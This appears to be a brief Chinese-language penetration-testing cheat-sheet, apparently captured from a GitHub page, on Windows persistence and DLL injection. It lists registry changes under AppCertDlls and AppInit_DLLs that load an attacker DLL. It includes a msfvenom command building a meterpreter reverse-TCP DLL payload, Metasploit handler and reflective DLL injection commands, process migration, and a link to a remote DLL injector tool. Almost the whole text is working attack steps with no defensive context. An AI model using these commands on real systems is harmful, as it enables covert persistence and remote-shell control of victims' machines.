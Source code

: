 #### AppCertDlls
	注册表HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SessionManager\下新建AppCertDlls，新建名字为Default，值为c:\1.dll的项
	#msfvenom –p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 –f dll >/root/1.dll
	Msf>use exploit/multi/handler
	Msf>set payload windows/meterpreter/reverse_tcp
	https://cdn.securityxploded.com/download/RemoteDLLInjector.zip
	> RemoteDLLInjector64.exe PID c:\1.dll
#### AppInit_DLLs
	注册表HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Window\Appinit_Dlls下AppInit_DLLs设置为c:\1.dll，LoadAppInit_DLLs设置为1
#### MSF
	Msf>use post/windows/manage/reflective_dll_inject
	Msf>set session 1
	Msf>set pid 1234
	Msf>set path c:\\1.dll
	Msf>run
	&
	migrate +pid
	&
	Meterpreter>run post/windows/manage/migrate